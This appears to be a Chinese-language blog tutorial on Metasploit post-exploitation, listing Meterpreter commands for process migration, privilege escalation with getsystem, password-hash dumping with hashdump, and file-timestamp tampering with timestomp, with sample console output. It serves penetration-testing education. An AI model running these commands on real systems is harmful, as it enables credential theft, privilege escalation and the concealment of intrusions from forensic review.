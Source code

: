 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit高级后渗透模块
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit高级后渗透模块
lock: need
---
```


# Metasploit高级后渗透模块

### 迁移到更安全的进程

```
migrate [要迁移到的进程id]
```

### 获取系统级权限 

```
getsystem
```

注：getsystem模块在比较新的Windows系统中不太稳定，最好使用本地的提升权限方法和模块来提升控制权限。

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

### 获取密码的哈希值

```
run hashdump
```

获取了目标的系统级管理权限后，就可以使用hashdump命令获取被渗透系统上登录密码的哈希值。

### 修改文件的访问时间、修改时间和创建时间

这里用到的命令是timestomp

#### 查看文件的时间信息

```
timestomp -v [目标文件]

meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 10:24:42 +0800
Accessed      : 2019-01-25 11:20:58 +0800
Created       : 2019-01-25 10:23:22 +0800
Entry Modified: 2019-01-25 10:24:42 +0800
```

#### 修改文件的时间信息

```
timestomp -z [时间信息] [目标文件]
```

此时的时间信息格式为：MM/DD/YYYY HH24:MI:SS

```
meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 10:24:42 +0800
Accessed      : 2019-01-25 11:20:58 +0800
Created       : 2019-01-25 10:23:22 +0800
Entry Modified: 2019-01-25 10:24:42 +0800
meterpreter > 
meterpreter > timestomp -z "01/25/2019 11:00:00" e:\test.txt
[*] Setting specific MACE attributes on e:test.txt
meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 11:00:00 +0800
Accessed      : 2019-01-25 11:26:29 +0800
Created       : 2019-01-25 11:00:00 +0800
Entry Modified: 2019-01-25 11:00:00 +0800
```

#### 清空时间信息

```
timestomp -b [目标文件]

meterpreter > timestomp -b e:\test.txt
[*] Blanking file MACE attributes on e:test.txt
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
